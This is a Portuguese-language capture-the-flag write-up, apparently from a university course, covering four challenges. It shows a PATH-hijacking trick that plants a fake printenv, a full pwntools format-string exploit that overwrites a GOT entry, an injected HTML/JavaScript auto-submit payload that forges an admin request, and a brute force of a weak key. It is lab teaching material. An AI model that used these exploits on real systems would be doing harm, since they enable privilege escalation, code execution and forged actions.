


# BRITISH PUNCTUALITY

Começamos por nos ligar à porta 4006 do servidor. Somos deparados com uma shell na diretoria *flag_reader*.


Executando o comando ls sabemos que temos uma função main.c, um script my_script.sh e um executável reader.


Ao executar reader a seguinte mensagem é impressa:


Para perceber o que o programa está a fazer, vamos fazer `cat main.c`.


O programa está portanto, a aceder ao ficheiro flag.txt na diretoria flag. Após alguma procura vimos que não tinhamos permissão para aceder a este local:


Vamos voltar atrás e ver o que contém my_script.sh


Neste ficheiro temos uma boa pista. O comando `printenv` é usado para chamar um caminho relativo, pelo que se torna possível explorar esta vulnerabilidade re-escrevendo $PATH, a variável de ambiente.

Vamos investigar, então, a diretoria /tmp:


Existem 2 ficheiros, um chamado last_log e outro printenv. O servidor a cada minuto, estava a executar my_script.sh. Isto significa que podíamos através deste ficheiro apanhar a flag.

Portanto, sabendo que temos de re-escrever $PATH, e sabendo que printenv nos dá acesso a flag.txt, fazemos dois comandos, na diretoria /tmp:

`printf 'PATH=/tmp' > /tmp/env` e `printf '#!/usr/bin/bash\n/usr/bin/cat /flags/flag.txt' > /tmp/printenv`

O primeiro adiciona ao PATH a diretoria /tmp. O segundo adiciona a printenv a diretoria /flags/flag.txt, por isso sempre que forem impressas as variáveis de ambiente, ou seja, sempre que o script correr, será também impresso o conteúdo de /flags/flag.txt.

Esperamos uns segundos que o script corra, fazemos `cat last_log` e sucesso! Conseguimos a flag:


# Final Format

Dado o nome do desafio, antes de sequer começar podemos assumir que irá ser algo relacionado com format string vulnerabilities.

No enunciado, é dado um ficheiro binário com um executável, por isso, em primeiro lugar fazemos checksec para ver as proteções que estão ativas.


Parece que as coisas vão ser um bocado mais complicadas do que inicialmente julgávamos. 

Para relembrar alguns conceitos: 

> Partial RELRO is the default setting in GCC, and nearly all binaries you will see have at least partial RELRO. From an attackers point-of-view, partial RELRO makes almost no difference, other than it forces the GOT to come before the BSS in memory, eliminating the risk of a buffer overflows on a global variable overwriting GOT entries. 

> The No eXecute or the NX bit (also known as Data Execution Prevention or DEP) marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code.

> Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.

> A No PIE application tells the loader which virtual address it should use (and keeps its memory layout quite static). Hence, attacks against this application know up-front how the virtual memory for this application is (partially) organized.

Para ver se de facto existe uma vulnerabilidade de string, escrevemos "aaaa%x%x%x%x" só para testar as águas


O resultado revelou que de facto, existe uma format string vulnerability. Como não temos acesso ao source file, teremos de usar o gdb para analisar o programa.

Primeiro, vemos as funções usadas pelo executável, com o comando `info functions`. 


Além de funções importadas de library, existem 2 funções de interesse: frame_dummy (0x08049230) e old_backdoor (0x08049236).

Para saber em maior detalhe como funcionam estas funções procurámos online um comando do gdb que permitisse inspecionar as mesmas `disas`.

Portanto, fizemos `disas frame_dummy` e `disas old_backdoor`.


A função frame_dummy, infelizmente, não parece ter nenhuma vulnerabilidade a explorar. old_backdoor, no entanto, faz uma chamada à função 'system' (`0x0804925f <+41>:    call   0x80490f0 <system@plt>`)

Vamos pôr um breakpoint em old_backdoor para ver o que acontece:


Ao que parece, o breakpoint nunca é atingido pelo que a função old_backdoor é apenas declarada, mas nunca é chamada.

Vamos então explorar a main, fazendo `disas main`:




Acompanhando o flow geral da função vemos que há 3 *printf*, correspondentes primeiro à mensagem "There is nothing to see here...", o segundo à mensagem "You gave me this:" e o terceiro imprime o input do utilizador na consola. Entre estas duas primeiras chamadas distintas da função *printf*, é usado primeiro *fflush*, para forçar o input do utilizador e depois o *scanf* para ler a informação que o utilizador inseriu.

Analisando com um bocadinho mais de atenção notámos que era feito, ao invés de uma call, um jump. Vamos aproveitar este salto, re-escrevendo o nosso endereço no destino do salto. Um candidato perfeito para este salto é o endereço da função old_backdoor (0x08049236).

Como este CTF se assemelha ao da semana 7, podemos ir buscar o exploit_example.py que usámos e adaptar a este problema.

Primeiro, tínhamos que dividir o endereço de old_backdoor em 2 partes e transformar as mesmas em decimal: 0x08049236 --> 2052 e 37430. De realçar que a estes dois valores decimais temos de subtrair o número de bytes já escritos antes e depois destes números, respetivamente, 12 e 2052 (os bytes que vamos escrever são os 0xabababab necessários para usar em conjução com %x e %n). 

Para saber quantos bytes são lidos pelo *scanf* colocamos um breakpoint para o mesmo no gdb e vimos a seguinte linha `0004| 0xffffd15c --> 0x804a048("%60s")`, pelo que sabemos que são lidos 60 bytes e teremos de ter 60 bytes no nosso array.

```
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4007)


bytes = bytearray(0x0 for i in range(60))

bytes[0:4]  =  (0xabababab).to_bytes(4, byteorder='little')
bytes[4:8]  =  (0x0804c010 + 2).to_bytes(4, byteorder='little')
bytes[8:12]  =  (0xabababab).to_bytes(4, byteorder='little')
bytes[12:16]  =  (0x0804c010).to_bytes(4, byteorder='little')


f = 2052 - 16
g = 37430 - 2052

s = "%."+ str(f) + "x%hn" + "%." + str(g) +"x%hn"

d  = (s).encode('latin-1')
bytes[16:16+len(d)] = d

p.recvuntil(b"here...")
p.sendline(bytes)
p.interactive()

```

Tudo o que falta agora é correr o script e, sucesso! Conseguimos a flag:


# APPLY FOR FLAG ii

Este ctf tinha um formato semelhante ao ctf da semana 10, desafio 1. Por isso começámos da mesma forma: pedir de forma gentil, afinal, maneiras são importantes.


Após submeter, e esperar alguns segundos, a página deu refresh e, infelizmente o nosso pedido formal foi recusado...


Parece que vamos ter de usar métodos menos educados! Ao clicar no link fornecido, que dá uma preview da página que o admin vê para aceitar a flag, vemos uma página semelhante à do admin no desafio 10. Uma olhadela no código fonte vemos que o html dos botões é o seguinte:

```
<div class="container">
  

<p> Justification available: <a href="http://ctf-fsi.fe.up.pt:5004/request/36a6bb154845b58006c7f78c66141badd16c3923">here</a></p>

<form method="POST" action="/request/36a6bb154845b58006c7f78c66141badd16c3923/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>

<form method="POST" action="/request/36a6bb154845b58006c7f78c66141badd16c3923/mark_as_read" role="formRead">
    <div class="submit">
        
        <input type="submit" id="markAsRead" value="Mark request as read" disabled="">
        
    </div>
</form>


</div>
```
De notar, o website do admin está na porta 5005, enquanto que o website de pedir a flag está na porta 5004.
Além disso, sempre que o admin clica em "Give Flag", é enviado um pedido POST com o endereço do pedido. Podemos simular este pedido, injetando no input um bocadinho de código HTML, que simula um pedido POST:

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/{ID DO PEDIDO}/approve" role="form">          
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">   
    </div>  
</form>    

<script type="text/javascript"> 
    document.getElementById('giveflag').click();  
</script>
```

Vamos então experimentar esta abordagem:


Durante uma fração de segundo, enquanto a página carregava, apareceu o website, identificado pelo banner laranja, mas no final a página ficou com o seguinte aspeto:


Como deu para ver que a página original de facto carregou e está lá, a única possibilidade é que exista uma restrição imposta por javascript, que nos impede de aceder ao website enquanto utilizador não-admin.

Para ultrapassar tal barreira, desativámos o javascript na página 'about:config' do firefox:


Depois de desativado o javascript, damos refresh à página e, sucesso! Conseguimos a flag!


# NumberStation3

Começando por ligar à porta 6002 do servidor, somos recebidos pelo seguinte texto:


Além disso, é também fornecido um ficheiro python _challenge.py_ que tem 3 secções. A primeira secção gera uma chave aleatória k, a segunda secção cifra k e a terceira secção des-cifra k. 

A chave aleatória k, é gerada num range de 1 a 16, logo, existem 2^16 possibilidades para a chave k. Como isto é um número de possíveis chaves muito pequeno, podemos fazer bruteforce, e experimentar para todos os 2^16 k, decifrar a mensagem que está no terminal.

Para atingir isto, basta escrever um pequeno loop em python:

```
message= b"7092d2de5411bb58c767cbadadc064c5e602c98bee4dffd03d39a04fe9f1d06357044da15292574aeb1c983d61dd8ba289edaa3f391405f3e5a2e8125dc9fb7d65fbd7fac7f7eb313a1f36261f09a53a7092d2de5411bb58c767cbadadc064c55fcd6196fc9d2cd3dc7cc933ee9c0dd67f7e1e7ad10c55fe28404d7ef8dca5c482786770a3bc6da24855f432819b7518a2849f8a1c837f5eee84627a4ce2040882786770a3bc6da24855f432819b7518620a914f0eaf8333479b145c84ad8b707092d2de5411bb58c767cbadadc064c557044da15292574aeb1c983d61dd8ba27092d2de5411bb58c767cbadadc064c55fcd6196fc9d2cd3dc7cc933ee9c0dd657044da15292574aeb1c983d61dd8ba265beb81c0fc35c276d092e580693b38563f513d58e6ebff913c9a2f4cc02fd83a2849f8a1c837f5eee84627a4ce20408620a914f0eaf8333479b145c84ad8b707092d2de5411bb58c767cbadadc064c5923e835ec070189971f8cfe8f1c8792e65beb81c0fc35c276d092e580693b385efba1022970b22325abad88218df7e21c36b238bbd13157a61be0beb4fba658863f513d58e6ebff913c9a2f4cc02fd83d3c1a2f0da268ffd40a7dd30e42558ec923e835ec070189971f8cfe8f1c8792e5fcd6196fc9d2cd3dc7cc933ee9c0dd665beb81c0fc35c276d092e580693b38565beb81c0fc35c276d092e580693b385620a914f0eaf8333479b145c84ad8b7004928a07ff4cbb2f8ab91d2fd8366119a2849f8a1c837f5eee84627a4ce2040865beb81c0fc35c276d092e580693b3857092d2de5411bb58c767cbadadc064c513075d020f71343a58564e15c93d990e6878c73e2f0a71c14abe6eb3d3d5e98a"

for i in range(2**16) :
	key = gen()
	if (dec(key, unhexlify(message)).decode('latin-1')[0:4] == "flag"):
		print(i)
		print(dec(key,unhexlify(message)).decode('latin-1'))
		break

```

Importante realçar, como no início do ficheiro py está a seguinte linha de código: `FLAG_FILE = '/flags/flag.txt'`, é necessário criar a diretoria flags e um ficheiro flag.txt na home. Tendo feito isso basta corrê-lo: 


Sucesso! Conseguimos a flag, para um valor de k igual a 38123.

